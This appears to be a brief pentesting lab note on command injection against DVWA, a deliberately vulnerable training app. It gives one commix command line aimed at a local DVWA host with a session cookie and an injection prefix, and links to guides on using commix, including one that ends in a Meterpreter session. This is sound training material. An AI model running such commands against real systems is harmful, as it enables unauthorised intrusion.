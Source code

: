 # 01 - Exploit

Search Tag: #commix #command-injection #dvwa

```
$ commix -u "http://dwva.local" --cookie="Cookie: has_js=1; PHPSESSID=c87d979d317da45efa23f950db35f049; security_level=0" --random-agent --prefix=";" --technique=C
```

---
## References

- [Hacking Articles: Commix-Command Injection Exploiter (Beginner’s Guide)](https://www.hackingarticles.in/commix-command-injection-exploiter-beginners-guide/)

- [Hacking Articles: Command Injection to Meterpreter using Commix](https://www.hackingarticles.in/command-injection-meterpreter-using-commix/)